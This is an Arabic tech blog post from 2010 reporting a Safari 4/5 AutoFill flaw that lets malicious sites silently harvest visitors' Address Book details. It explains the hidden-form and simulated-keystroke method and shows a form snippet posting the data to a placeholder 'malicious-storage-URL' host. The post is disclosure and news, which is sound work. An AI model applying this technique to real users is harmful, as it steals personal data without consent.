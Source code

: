 ```yaml
---
author: Xacker
date: 2010-07-25 12:23:35+00:00
draft: false
title: 'الكشف عن ثغرة في متصفح Safari تعرض بيانات المستخدم للسرقة  '
type: post
url: /2010/07/apple-safari-vulnerability/
categories:
- Apple
- Security
- متصفحات
tags:
- Apple
- Safari
- vulnerability
---
```


**[الكشف عن ثغرة في متصفح Safari تعرض بيانات المستخدم للسرقة](it-scoop.com/2010/07/apple-safari-vulnerability)**




تم الإعلان عن وجود خلل أمني في التصميم في متصفح Safari للإصدارين 4.0 و 5.0 يسمح للمهاجم بالحصول على بيانات شخصية خاصة بالزائر مثل (الاسم، العنوان،البريد الالكتروني، ...)




[![](https://www.it-scoop.com/wp-content/uploads/2010/07/safari_hacked.jpg)
](it-scoop.com/2010/07/apple-safari-vulnerability)


المشكلة الأمنية تظهر في حال قيام مستخدم ما بزيارة موقع خبيث، حتى لو لم يزره من قبل، ولم يدخل أي بيانات شخصية أيضاً، فيكون بمقدور الموقع كشف اسمه الكامل، مكان العمل، المدينة، الولاية (في حال كونه في الولايات المتحدة) بريده الالكتروني الشخصي!

يأتي متصفح Safari في الإصدارين 4.0 و 5.0 والذي يملك حوالي 4% من حصة السوق (أي تقريباً 83 مليون مستخدم)، بميزة على المسار (Preferences > AutoFill > AutoFill web forms) مفعّلة بشكل افتراضي.


[![](https://1.bp.blogspot.com/_JdybrokZBAk/TEUpf7TexxI/AAAAAAAABwU/oP9jGxcIz5A/s400/prefs.png  )
](https://www.it-scoop.com/wp-يوغرطة بن علي (Youghourta Benali)/it-scoop.com/2010/07/apple-safari-vulnerability)


هذه الميزة "AutoFill" تقوم بملء حقول الإدخال النصية في صفحات HTML والتي تحمل خصائص معينة مثل name, company, city, state, country, email, الخ.

<!-- more -->

مثال:

    
    <form>
    <input type="text" name="company"></input>
    <input type="text" name="email"></input></form>


يتم ملء هذه الحقول باستخدام بيانات من سجل المستخدمين الخاص في دفتر العناوين الخاص بنظام التشغيل المستخدم ومن المهم التذكير بأن هذه الخاصة تعمل حتى لو لم يقم المستخدم بإدخال مثل هذه البيانات من قبل لأنها مختلفة عن ميزة الإكمال التلقائي والتي يقوم المتصفح بتذكر بعض ما قمت بإدخاله مؤخراً في بعض حقول الإدخال النصية في المواقع التي تستخدمها.

كل ما يحتاج إلى القيام به أي موقع خبيث لاستخراج هذه المعلومات بمعاونة متصفح Safari هو أن يقوم بإنشاء نموذج (Form) إدخال كالمثال الذي ذكرناه، حتى لو بشكل مخفي، ومن ثم "محاكاة" نقرات المفاتيح ضمنها لإيهام المتصفح بأن المستخدم هو من يقوم بالنقر على لوحة المفاتيح. عندما يتم جلب البيانات والتي يتم ملؤها بشكل آلي، يصبح بإمكان المهاجم الوصول إليها من خلال إرسالها دون علم المستخدم إلى العنوان الذي يحدده في النموذج

    
    <form action="http://www.malicious-storage-URL.com"></form>


قام Robert Hansen المعروف بـ "RSnake" أحد الخبراء المعروفين في عالم الأمن (والذي بالتأكيد قرأتم شيئاً من كتاباته في موقع [http://ha.ckers.org](http://ha.ckers.org/)) باستضافة دليل [proof-of-concept](http://ha.ckers.org/weird/safari_autofill.html) على وجود المشكلة – لو كنت تود التجربة والإطلاع وتقلق بشأن بياناتك تستطيع تغييرها قبل زيارة الموقع من خلال Address Book كما تظهر الصورة

[![](https://www.it-scoop.com/wp-content/uploads/2010/07/address-book.png)
](it-scoop.com/2010/07/apple-safari-vulnerability)

وفقاً لما تذكره مدونة Jeremiah Grossman أحد الأسماء المعروفة أيضاً في عالم أمن المعلومات فإنه من حسن الحظ أن أرقام الهاتف "لسبب ما" لا يتم إظهارها بهذه الطريقة.

قمت بتجربة الدليل المنشور على موقع RSnake وفيما يلي صورة للنتائج

[![](https://www.it-scoop.com/wp-content/uploads/2010/07/autofill-poc.png)
](it-scoop.com/2010/07/apple-safari-vulnerability)

تجدر الإشارة إلى أن Jeremiah Grossman قد قام بإبلاغ Apple حول المشكل لكن لم يتلق سوى رد آلي على رسالته، و بعد عدم الحصول على أي رد على مراسلة ثانية قرر الكشف عن الثغرة ليسمع صوته بشكل أفضل :)

للإطلاع على المزيد من المعلومات حول الخبر يمكن مراجعة [التدوينة](http://jeremiahgrossman.blogspot.com/2010/07/i-know-who-your-name-where-you-work-and.html) الأصلية.
